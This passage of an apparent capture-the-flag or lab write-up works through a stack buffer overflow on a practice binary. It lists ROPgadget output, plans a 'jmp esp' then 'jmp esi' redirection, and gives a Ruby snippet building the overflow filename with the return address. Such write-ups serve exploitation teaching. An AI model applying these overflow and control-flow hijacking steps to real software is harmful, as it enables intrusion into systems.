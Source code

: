 No call instructions either... In hopes of moving the value of `esi` to another register find all gadgets that involve `esi`:

{% highlight bash %}
pwf@ubuntu:~$ ROPgadget --binary level01 | grep esi
0x08049608 : adc byte ptr [esi + 0x5f], bl ; pop ebp ; ret
0x08049973 : add al, 0 ; add byte ptr [esi + 0x5f], bl ; pop ebp ; ret
0x08049604 : add byte ptr [eax], al ; add esp, 0x10 ; pop esi ; pop edi ; pop ebp ; ret
0x08049974 : add byte ptr [eax], al ; pop esi ; pop edi ; pop ebp ; ret
0x08049975 : add byte ptr [esi + 0x5f], bl ; pop ebp ; ret
0x08049606 : add esp, 0x10 ; pop esi ; pop edi ; pop ebp ; ret
0x08049a29 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049970 : add esp, 0x420 ; pop esi ; pop edi ; pop ebp ; ret
0x08049972 : and byte ptr [eax + eax], al ; add byte ptr [esi + 0x5f], bl ; pop ebp ; ret
0x08049a27 : jne 0x8049a11 ; add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049a2a : les ebx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08049607 : les edx, ptr [eax] ; pop esi ; pop edi ; pop ebp ; ret
0x08049060 : les esi, ptr [eax] ; add al, byte ptr [eax] ; add byte ptr [ebx + 0x5f], bl ; pop ebp ; ret
0x08049a62 : les esi, ptr [edx - 0x6f99f7fc] ; sub ebx, 4 ; call eax
0x08049971 : les esp, ptr [eax] ; add al, 0 ; add byte ptr [esi + 0x5f], bl ; pop ebp ; ret
0x08049a63 : mov dl, 4 ; or byte ptr [esi - 0x70], ah ; sub ebx, 4 ; call eax
0x08049a65 : or byte ptr [esi - 0x70], ah ; sub ebx, 4 ; call eax
0x08049a2c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049609 : pop esi ; pop edi ; pop ebp ; ret
0x080499d1 : push edi ; push esi ; push ebx ; call 0x8049a4b
0x080499d2 : push esi ; push ebx ; call 0x8049a4a
0x08049a2b : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
{% endhighlight %}

None of these gadgets seem to allow moving the value to another register... Fortunately there is a `jmp esp` gadget at address `0x08049f4f`. The `esp` register will direct execution to the data in the path buffer that is not large enough for the payload, but we can put a `jmp esi` instruction there.

Game plan:

* Load `eip` with the address for a `jmp esp` instruction
* The `jmp esp` will cause data in the path buffer to execute
* The path buffer will contain a `jmp esi` instruction
* The `jmp esi` will execute the payload

## Jump jump away
---

Load address `0x08049f4f` in `eip`,

{% highlight Ruby %}
...
junk = "A" * 139
ret = [0x08049f4f].pack('V')
trailing_junk = "B" * ( 200 - junk.length - ret.length )
filename = junk + ret + trailing_junk
...
{% endhighlight %}
